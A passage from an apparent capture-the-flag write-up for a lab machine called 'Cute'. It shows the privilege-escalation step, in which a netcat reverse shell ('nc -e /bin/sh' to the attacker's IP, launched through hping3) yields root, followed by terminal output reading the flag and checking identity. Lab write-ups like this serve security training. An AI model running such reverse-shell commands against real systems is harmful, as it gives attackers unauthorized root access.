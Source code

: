##### use netcat to reverse shell for local
```
hping3> nc -e /bin/sh 192.168.146.50 4445
nc -e /bin/sh 192.168.146.50 4445
```
##### Finally get root shell
```
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.75] 57576
id
uid=0(root) gid=0(root) groups=0(root)
/usr/bin/script -qc /bin/bash /dev/null
root@cute:/tmp# cd /root
cd /root
root@cute:~# ls
ls
localweb  root.txt
root@cute:~# cat root.txtg
cat root.txtg
cat: root.txtg: No such file or directory
root@cute:~# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
root@cute:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:1b:b0:20 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.75/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 70362sec preferred_lft 70362sec
    inet6 fe80::20c:29ff:fe1b:b020/64 scope link 
       valid_lft forever preferred_lft forever
root@cute:~# whoami
whoami
root
root@cute:~# 
```